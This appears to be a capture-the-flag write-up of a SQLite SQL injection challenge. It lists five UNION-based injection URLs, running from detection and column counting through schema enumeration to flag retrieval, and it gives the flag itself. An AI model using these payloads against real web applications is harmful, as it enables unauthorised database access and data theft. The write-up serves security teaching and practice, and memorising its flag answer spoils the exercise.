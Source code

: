 
## Exploitation Payloads

Below is the sequence of URLs used to exploit the vulnerability step-by-step.

1. **Vulnerability Check:**
    
    ```
    <https://meteor.sunshinectf.games/product?product_id=1>'
    
    ```
    
2. **Find Column Count:**
    
    ```
    <https://meteor.sunshinectf.games/product?product_id=1> ORDER BY 5--
    
    ```
    
3. **Find the `flag` Table Name:**
    
    ```
    <https://meteor.sunshinectf.games/product?product_id=-1> UNION SELECT 1,name,3,4 FROM sqlite_master WHERE type='table'--
    
    ```
    
4. **Find the `flag` Column Name:**
    
    ```
    <https://meteor.sunshinectf.games/product?product_id=-1> UNION SELECT 1,sql,3,4 FROM sqlite_master WHERE name='flag'--
    
    ```
    
5. **Retrieve the Flag:**
    
    ```
    <https://meteor.sunshinectf.games/product?product_id=-1> UNION SELECT 1,flag,3,4 FROM flag--
    
    ```
    

---

**Result (Flag)**

After executing the final payload, the flag is displayed on the page.

`sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}`

---

## Notes and Tips

- This is a classic SQL Injection exercise that allows players to practice the full exploitation workflow: detection, enumeration, and exfiltration.
- Error messages from the web server or database are an invaluable source of information. In this case, errors confirmed the vulnerability and revealed the column count.
- The "No Fuzzing" warning is a strong hint to look for logical or injection-based vulnerabilities rather than brute-force attacks.
- For SQLite databases, the `sqlite_master` table is always the starting point for discovering the internal schema.
